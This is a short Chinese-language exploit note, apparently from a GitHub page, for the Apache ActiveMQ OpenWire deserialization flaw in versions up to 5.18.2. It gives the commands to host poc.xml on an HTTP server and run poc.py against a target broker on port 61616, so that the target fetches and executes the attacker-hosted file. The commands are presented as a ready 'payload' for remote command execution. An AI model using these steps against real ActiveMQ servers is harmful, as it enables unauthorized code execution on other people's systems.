 在Apache ActiveMQ 5.18.2版本及以前，OpenWire协议通信过程中存在一处反序列化漏洞，该漏洞可以允许具有网络访问权限的远程攻击者通过操作 OpenWire 协议中的序列化类类型，导致代理的类路径上的任何类实例化，从而执行任意命令。

在本地poc.xml路径下开启http服务

利用poc.py触发poc.xml

payload：

```
python -m http.server 9999
```

```
python3 poc.py 192.168.1.15 61616 http://192.168.1.1:9999/poc.xml
```


